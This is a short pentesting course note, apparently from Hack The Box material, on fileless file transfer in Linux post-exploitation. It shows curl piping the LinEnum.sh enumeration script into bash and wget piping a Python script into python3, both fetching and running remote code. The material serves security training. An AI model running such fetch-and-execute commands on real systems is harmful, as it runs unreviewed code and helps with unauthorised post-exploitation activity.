 ```yaml
---
tags:
  - Pentesting
  - Post-Exploitation
  - File_Transfer
---
```

Because of the way Linux works and how [pipes operate](https://www.geeksforgeeks.org/piping-in-unix-or-linux/), most of the tools we use in Linux can be used to replicate fileless operations, which means that we don't have to download a file to execute it.

**Note:** Some payloads such as `mkfifo` write files to disk. Keep in mind that while the execution of the payload may be fileless when you use a pipe, depending on the payload chosen it may create temporary files on the OS.

Let's take the `cURL` command we used, and instead of downloading LinEnum.sh, let's execute it directly using a pipe.

#### Fileless Download with cURL

```shell-session
arenwald@htb[/htb]$ curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
```

Similarly, we can download a Python script file from a web server and pipe it into the Python binary. Let's do that, this time using `wget`.

#### Fileless Download with wget

```shell-session
arenwald@htb[/htb]$ wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3

Hello World!
```
